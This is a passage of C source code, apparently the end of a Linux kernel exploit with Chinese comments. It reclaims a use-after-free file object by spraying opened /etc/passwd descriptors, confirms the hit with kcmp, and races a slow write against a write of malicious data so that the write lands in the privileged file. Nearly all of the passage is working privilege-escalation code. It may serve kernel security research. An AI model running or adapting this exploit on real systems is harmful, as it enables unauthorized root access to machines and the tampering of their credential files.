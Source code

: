 ```c
    int found = 0;

    while (!run_spray){
        // do nothing
    }

    info("Got uaf fd %d, start to spray file to compete...", uaf_fd);
    for(int i = 0 ; i<MAX_FILE_NUM; i++){
        fds[i] = open("/etc/passwd", O_RDONLY); // 堆喷射来占据文件，这里同种文件不需要cross-cache
        if(fds[i] < 0){
            err_exit("opening /etc/passwd failed");
        }
        
        // int kcmp(pid_t pid1, pid_t pid2, int type, unsigned long idx1, unsigned long idx2);
        // 判断同一进程中的第uaf_fd个文件描述符和第fds[i]个文件描述符是否是一个东西
        if(!syscall(__NR_kcmp, getpid(), getpid(), KCMP_FILE, uaf_fd, fds[i])){
            found = 1;
            info("found! file fd %d.", fds[i]);
            for(int j = 0 ; j < i; j++){
                close(fds[j]);
            }
            break;
        }
    }

    if(!found){
        err_exit("File spray not hit, try again!");
    }

}

int main()
{
    pthread_t pid, pid_cmd;

    unshare_setup(); // 不创建命名空间则无法创建文件系统
    change_tmp_dir(); // 切换到临时目录进行处理

    // 触发漏洞的 UAF
    trigger();

    pthread_create(&pid, NULL, slow_write, NULL); // 先行向非特权文件写入大量数据，如此拉长write-check的时间窗口
    usleep(1);
    pthread_create(&pid_cmd, NULL, write_cmd, NULL); // 向非特权文件写入恶意数据

    // 堆喷特权文件，若分配到UAF obj，则写入的非特权文件会变成向特权文件写入
    spray_files();

    pthread_join(pid, NULL);
    pthread_join(pid_cmd, NULL);

    return 0;
}
```
